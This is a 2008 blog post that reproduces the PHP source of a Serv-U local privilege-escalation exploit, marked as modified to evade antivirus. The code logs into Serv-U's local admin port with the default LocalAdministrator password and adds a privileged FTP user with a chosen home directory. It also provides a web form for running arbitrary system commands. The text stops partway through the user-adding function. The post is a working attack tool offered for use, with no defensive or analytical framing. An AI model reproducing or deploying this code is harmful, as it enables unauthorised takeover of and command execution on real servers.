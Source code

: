 ```yaml
---
layout: post
status: publish
published: true
title: Serv-U All Version本地提升权限Exp10it Ver 1.5
author:
  display_name: ''
  login: Seaprince
  email: seaprince@mail.com
  url: ''
author_login: Seaprince
author_email: seaprince@mail.com
wordpress_id: 178
date: !binary |-
  MjAwOC0wMS0xNiAwOTowOToxNSArMDgwMA==
date_gmt: !binary |-
  MjAwOC0wMS0xNiAwOTowOToxNSArMDgwMA==
categories:
- 服务器
tags: []
comments: []
---
```

<div class="codeText">
<div class="codeHead">PHP代码<&#47;div></p>
<ol class="dp-c" start="1">
<li class="alt"><span><span><?PHP&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class=""><span><span class="comment">&#47;**<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="comment">修改免杀版本&nbsp;BY：CiKer<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="comment">**&#47;<&#47;span><span>&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class="alt"><span><span class="comment">&#47;&#47;<&#47;span><span>&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class=""><span><span class="comment">&#47;&#47;Codez&nbsp;begin<&#47;span><span>&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class="alt"><span><span class="comment">&#47;&#47;<&#47;span><span>&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class=""><span><span class="comment">&#47;&#47;判断magic_quotes_gpc的值<&#47;span><span>&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class="alt"><span>&nbsp;&nbsp;<&#47;span><&#47;li>
<li class=""><span>set_time_limit(0);&nbsp;&nbsp;<&#47;span><&#47;li>
<li class="alt"><span>&nbsp;&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="keyword">if<&#47;span><span>&nbsp;(get_magic_quotes_gpc())&nbsp;{&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class="alt"><span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span class="vars">$_GET<&#47;span><span>&nbsp;=&nbsp;stripslashes_array(<&#47;span><span class="vars">$_GET<&#47;span><span>);&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class=""><span>}&nbsp;&nbsp;<&#47;span><&#47;li>
<li class="alt"><span>&nbsp;&nbsp;<&#47;span><&#47;li>
<li class=""><span>&nbsp;&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="comment">&#47;&#47;变量初始化<&#47;span><span>&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class=""><span><span class="vars">$addr<&#47;span><span>&nbsp;=&nbsp;<&#47;span><span class="string">'127.0.0.1'<&#47;span><span>;&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class="alt"><span><span class="vars">$ftpport<&#47;span><span>&nbsp;=&nbsp;21;&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class=""><span><span class="vars">$adminport<&#47;span><span>&nbsp;=&nbsp;43958;&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class="alt"><span><span class="vars">$adminuser<&#47;span><span>&nbsp;=&nbsp;<&#47;span><span class="string">'LocalAdministrator'<&#47;span><span>;&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class=""><span><span class="vars">$adminpass<&#47;span><span>&nbsp;=&nbsp;<&#47;span><span class="string">'#l@$ak#.lk;0@P'<&#47;span><span>;&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class="alt"><span><span class="vars">$user<&#47;span><span>&nbsp;=&nbsp;<&#47;span><span class="string">'110'<&#47;span><span>;&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class=""><span><span class="vars">$password<&#47;span><span>&nbsp;=&nbsp;<&#47;span><span class="string">'110'<&#47;span><span>;&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class="alt"><span><span class="vars">$homedir<&#47;span><span>&nbsp;=&nbsp;<&#47;span><span class="string">'C:\\';<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">$dir&nbsp;=&nbsp;'<&#47;span><span>C:\\WINNT\\System32\\<&#47;span><span class="string">';<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span>&nbsp;<&#47;span><&#47;li>
<li class=""><span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&#47;&#47;有改变则赋值<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">if&nbsp;($_GET){<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$addr&nbsp;=&nbsp;$_GET['<&#47;span><span>addr<&#47;span><span class="string">']&nbsp;;&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class=""><span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$ftpport&nbsp;=&nbsp;$_GET['<span>ftpport<&#47;span><span class="string">']&nbsp;;<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$adminport&nbsp;=&nbsp;$_GET['<&#47;span><span>adminport<&#47;span><span class="string">']&nbsp;;&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class=""><span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$adminuser&nbsp;=&nbsp;$_GET['<span>adminuser<&#47;span><span class="string">']&nbsp;;<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$adminpass&nbsp;=&nbsp;$_GET['<&#47;span><span>adminpass<&#47;span><span class="string">']&nbsp;;&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class=""><span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$user&nbsp;=&nbsp;$_GET['<span>user<&#47;span><span class="string">']&nbsp;;<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$password&nbsp;=&nbsp;$_GET['<&#47;span><span>password<&#47;span><span class="string">']&nbsp;;&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class=""><span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$homedir&nbsp;=&nbsp;$_GET['<span>homedir<&#47;span><span class="string">']&nbsp;;<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;($_GET['<&#47;span><span>dir<&#47;span><span class="string">']){&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class=""><span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$dir&nbsp;=&nbsp;$_GET['<span>dir<&#47;span><span class="string">']&nbsp;;<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">}<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">?><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string"><!--&nbsp;主文件开始&nbsp;&#47;&#47;--><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string"><html><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string"><head><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string"><title>-=<Serv-U&nbsp;All&nbsp;Version本地提升权限Exp10it&nbsp;Ver&nbsp;1.5>=-<&#47;title><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string"><meta&nbsp;content="text&#47;html;&nbsp;charset=gb2312"&nbsp;http-equiv="Content-Type"><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string"><STYLE&nbsp;TYPE="text&#47;css"><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">b&nbsp;{font-family&nbsp;:&nbsp;Verdana,&nbsp;sans-serif;font-size&nbsp;:&nbsp;14px;}<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">body,td,p,pre&nbsp;{<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">font-family&nbsp;:&nbsp;Verdana,&nbsp;sans-serif;font-size&nbsp;:&nbsp;12px;<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">}<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">input&nbsp;{<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;font-family:&nbsp;"Verdana";<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;font-size:&nbsp;"11px";<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BACKGROUND-COLOR:&nbsp;"#FFFFFF";<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;height:&nbsp;"18px";<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;border:&nbsp;"1px&nbsp;solid&nbsp;#666666";<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string"><&#47;STYLE><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string"><&#47;head><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string"><body&nbsp;bgcolor="#EEEEEE"&nbsp;text="#000000"&nbsp;link="#006699"&nbsp;vlink="#5493B4"><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string"><center><b>Serv-U&nbsp;All&nbsp;Version本地提升权限Exp10it&nbsp;Ver&nbsp;1.5<&#47;b><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string"><br><br><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string"><b>添加Serv-U用户部分<&#47;b><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string"><br><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string"><br />
<form&nbsp;action="<?=$_SERVER['<&#47;span><span>PHP_SELF<&#47;span><span class="string">']?>"&nbsp;method="get"><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class="alt"><span><span class="string"><br />
<table&nbsp;width="660"&nbsp;border="0"&nbsp;cellpadding="0"><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class=""><span><span class="string"><br />
<tr>
<td&nbsp;width="300"&nbsp;align="center">主机IP：<&#47;td>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<td&nbsp;width="360"&nbsp;align="center"><input&nbsp;name="addr"&nbsp;type="text"&nbsp;class="INPUT"&nbsp;value="<?=$addr?>"><&#47;td><&#47;tr><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class="alt"><span><span class="string"><br />
<tr>
<td&nbsp;width="300"&nbsp;align="center">主机Ftp端口：<&#47;td>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<td&nbsp;width="360"&nbsp;align="center"><input&nbsp;name="ftpport"&nbsp;type="text"&nbsp;class="INPUT"&nbsp;value="<?=$ftpport?>"><&#47;td><&#47;tr><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class=""><span><span class="string"><br />
<tr>
<td&nbsp;width="300"&nbsp;align="center">主机Ftp管理端口：<&#47;td>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<td&nbsp;width="360"&nbsp;align="center"><input&nbsp;name="adminport"&nbsp;type="text"&nbsp;class="INPUT"&nbsp;value="<?=$adminport?>"><&#47;td><&#47;tr><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class="alt"><span><span class="string"><br />
<tr>
<td&nbsp;width="300"&nbsp;align="center">主机Ftp管理用户：<&#47;td>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<td&nbsp;width="360"&nbsp;align="center"><input&nbsp;name="adminuser"&nbsp;type="text"&nbsp;class="INPUT"&nbsp;value="<?=$adminuser?>"><&#47;td><&#47;tr><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class=""><span><span class="string"><br />
<tr>
<td&nbsp;width="300"&nbsp;align="center">主机Ftp管理密码：<&#47;td>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<td&nbsp;width="360"&nbsp;align="center"><input&nbsp;name="adminpass"&nbsp;type="text"&nbsp;class="INPUT"&nbsp;value="<?=$adminpass?>"><&#47;td><&#47;tr><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class="alt"><span><span class="string"><br />
<tr>
<td&nbsp;width="300"&nbsp;align="center">添加的用户名：<&#47;td>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<td&nbsp;width="360"&nbsp;align="center"><input&nbsp;name="user"&nbsp;type="text"&nbsp;class="INPUT"&nbsp;value="<?=$user?>"><&#47;td><&#47;tr><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class=""><span><span class="string"><br />
<tr>
<td&nbsp;width="300"&nbsp;align="center">添加的用户名密码：<&#47;td>
<td&nbsp;width="360"&nbsp;align="center"><input&nbsp;name="password"&nbsp;type="password"&nbsp;class="INPUT"&nbsp;value="<?=$password?>"><&#47;td><&#47;tr><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class="alt"><span><span class="string"><br />
<tr>
<td&nbsp;width="300"&nbsp;align="center">用户主目录(别忘了写"\")：<&#47;td>&nbsp;
<td&nbsp;width="360"&nbsp;align="center"><input&nbsp;name="homedir"&nbsp;type="text"&nbsp;class="INPUT"&nbsp;value="<?=$homedir?>"><&#47;td><&#47;tr><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class=""><span><span class="string"><br />
<tr>
<td&nbsp;width="300"&nbsp;align="center"><input&nbsp;name="action"&nbsp;type="hidden"&nbsp;value="up"><&#47;td><&#47;tr><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class="alt"><span><span class="string"><br />
<tr>
<td&nbsp;width="300"&nbsp;align="center"><input&nbsp;type="submit"&nbsp;class="INPUT"&nbsp;value="添加"><&#47;td><&#47;tr><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class=""><span><span class="string"><&#47;form><&#47;tr><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string"><&#47;table><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string"><br />
<hr&nbsp;width="660"><br><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class="alt"><span><span class="string"><textarea&nbsp;cols="60"&nbsp;rows="10"&nbsp;readonly>命令回显:<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string"><?php<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span>&nbsp;<&#47;span><&#47;li>
<li class=""><span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&#47;&#47;添加用户<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">if&nbsp;($_GET['<&#47;span><span>action<&#47;span><span class="string">']=="up"){<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;up($addr,$ftpport,$adminport,$adminuser,$adminpass,$user,$password,$homedir);<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;?><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string"><&#47;textarea><&#47;center><br><br />
<hr&nbsp;width="660"><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class="alt"><span><span class="string"><center><b>执行命令部分<&#47;b><br><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string"><br />
<form&nbsp;action="<?=$_SERVER['<&#47;span><span>PHP_SELF<&#47;span><span class="string">']?>"&nbsp;method="get"><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class="alt"><span><span class="string"><br />
<table&nbsp;width="660"&nbsp;border="0"&nbsp;cellpadding="0"><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class=""><span><span class="string"><br />
<tr>
<td&nbsp;width="300"&nbsp;align="center">主机Ftp端口：<&#47;td>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<td&nbsp;width="360"&nbsp;align="center"><input&nbsp;name="ftpport"&nbsp;type="text"&nbsp;class="INPUT"&nbsp;value="<?=$ftpport?>"><&#47;td><&#47;tr><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class="alt"><span><span class="string"><br />
<tr>
<td&nbsp;width="300"&nbsp;align="center">用户名：<&#47;td>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<td&nbsp;width="360"&nbsp;align="center"><input&nbsp;name="user"&nbsp;type="text"&nbsp;class="INPUT"&nbsp;value="<?=$user?>"><&#47;td><&#47;tr><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class=""><span><span class="string"><br />
<tr>
<td&nbsp;width="300"&nbsp;align="center">用户名密码：<&#47;td>
<td&nbsp;width="360"&nbsp;align="center"><input&nbsp;name="password"&nbsp;type="password"&nbsp;class="INPUT"&nbsp;value="<?=$password?>"><&#47;td><&#47;tr><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class="alt"><span><span class="string"><br />
<tr>
<td&nbsp;width="300"&nbsp;align="center">系统路径(别忘了写"\")：<&#47;td>
<td&nbsp;width="360"&nbsp;align="center"><input&nbsp;name="dir"&nbsp;type="text"&nbsp;class="INPUT"&nbsp;value="<?=$dir?>"><&#47;td><&#47;tr><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class=""><span><span class="string"><br />
<tr>
<td&nbsp;width="300"&nbsp;align="center">执行的命令：<&#47;td>&nbsp;
<td&nbsp;width="360"&nbsp;align="center"><input&nbsp;name="cmd"&nbsp;type="text"&nbsp;class="INPUT"&nbsp;value="<?=$_GET['<&#47;span><span>cmd<&#47;span><span class="string">']?>"><&#47;td><&#47;tr><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class="alt"><span><span class="string"><br />
<tr>
<td&nbsp;width="300"&nbsp;align="center"><input&nbsp;name="action"&nbsp;type="hidden"&nbsp;value="execute"><&#47;td><&#47;tr><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class=""><span><span class="string"><br />
<tr>
<td&nbsp;width="300"&nbsp;align="center"><input&nbsp;type="submit"&nbsp;class="INPUT"&nbsp;value="执行"><&#47;td><&#47;tr><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class="alt"><span><span class="string"><&#47;form><&#47;tr><&#47;table><br />
<hr&nbsp;width="660"><br><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class=""><span><span class="string"><textarea&nbsp;cols="60"&nbsp;rows="10"&nbsp;readonly>命令回显:<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string"><?php<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&#47;&#47;执行命令<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">if&nbsp;($_GET['<&#47;span><span>action<&#47;span><span class="string">']=="execute"){&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class=""><span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ftpcmd($ftpport,$user,$password,$dir,$_GET['<span>cmd<&#47;span><span class="string">']);<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">?><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string"><&#47;textarea><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string"><&#47;center><br><br />
<hr&nbsp;width="660"><&#47;span>&nbsp;<&#47;span><&#47;li></p>
<li class="alt"><span><span class="string"><i><center>Copycenter&nbsp;(C)&nbsp;2004&nbsp;我非我&nbsp;All&nbsp;centers&nbsp;Reserved.&nbsp;免杀修改&nbsp;BY:CiKer&nbsp;从此Hacking的道路更宽敞了...<br><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string"><&#47;center><&#47;i><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string"><&#47;body><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string"><&#47;html><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string"><!--&nbsp;主文件结束&nbsp;&#47;&#47;--><&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string"><?php<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span>&nbsp;<&#47;span><&#47;li>
<li class=""><span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&#47;&#47;添加用户主函数定义<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">function&nbsp;up($addr,$ftpport,$adminport,$adminuser,$adminpass,$user,$password,$homedir){<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$fp&nbsp;=&nbsp;fsockopen&nbsp;("127.0.0.1",&nbsp;$adminport,&nbsp;$errno,&nbsp;$errstr,&nbsp;8);<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;(!$fp)&nbsp;{<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;echo&nbsp;"$errstr&nbsp;($errno)<br>\n";<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}&nbsp;else&nbsp;{<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"USER&nbsp;".$adminuser."");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sleep&nbsp;(1);<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"PASS&nbsp;".$adminpass."");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sleep&nbsp;(1);<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"SITE&nbsp;MAINTENANCE");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sleep&nbsp;(1);<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-SETUSERSETUP");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-IP=".$addr."");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-PortNo=".$ftpport."");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-User=".$user."");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-Password=".$password."");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-HomeDir=".$homedir."");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-LoginMesFile=");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-Disable=0");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-RelPaths=0");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-NeedSecure=0");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-HideHidden=0");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-AlwaysAllowLogin=0");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-ChangePassword=1");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-QuotaEnable=0");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-MaxUsersLoginPerIP=-1");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-SpeedLimitUp=-1");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-SpeedLimitDown=-1");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-MaxNrUsers=-1");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-IdleTimeOut=600");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-SessionTimeOut=-1");<&#47;span>&nbsp;<&#47;span><&#47;li>
